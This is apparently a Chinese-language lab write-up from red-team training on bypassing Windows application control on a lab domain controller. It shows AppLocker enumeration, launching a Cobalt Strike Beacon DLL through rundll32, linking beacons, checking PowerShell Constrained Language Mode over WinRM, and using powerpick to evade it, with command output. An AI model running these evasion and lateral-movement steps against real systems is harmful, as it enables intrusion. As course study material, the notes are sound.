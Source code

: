 $ExecutionContext.SessionState.LanguageModeConstrainedLanguage
Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections
```

1661732327423.png


DLL 强制很少启用，因为它会给系统带来额外的负载，并且需要进行大量测试以确保不会出现任何问题

Cobalt Strike 可以将 Beacon 输出到可以使用rundll32运行的 DLL 

下面方法我在lab无法复现，因为我无法关掉dc-1的defender，这里知道有这种方法即可

```
C:\Users\Administrator\Desktop>dir
 Volume in drive C has no label.
 Volume Serial Number is 8A6C-CD61

 Directory of C:\Users\Administrator\Desktop

05/17/2021  11:01 PM    <DIR>          .
05/17/2021  11:01 PM    <DIR>          ..
05/17/2021  10:59 PM           311,808 beacon.dll

C:\>C:\Windows\System32\rundll32.exe C:\Users\Administrator\Desktop\beacon.dll,StartW
```

```
beacon> link dc-1
[+] established link to child beacon: 10.10.15.75
```


# PowerShell Constrained Language Mode（CLM）

枚举dc-1上是否有CLM

```
beacon> remote-exec winrm dc-1 $ExecutionContext.SessionState.LanguageMode
[*] Tasked beacon to run '$ExecutionContext.SessionState.LanguageMode' on dc-1 via WinRM
[+] host called home, sent: 327 bytes
[+] received output:

PSComputerName RunspaceId                           Value              
-------------- ----------                           -----              
dc-1           76353831-73f5-4234-8282-cf7125d13d6b ConstrainedLanguage

```

1661734556715.png


无法使用winrm（powershell）

1661734621007.png


在dc-1上，使用powershell会马上断开（教材在这一步是会报错）

1661734751787.png


使用powerpic代替powershell，绕过CLM限制

```
beacon> run hostname
[*] Tasked beacon to run: hostname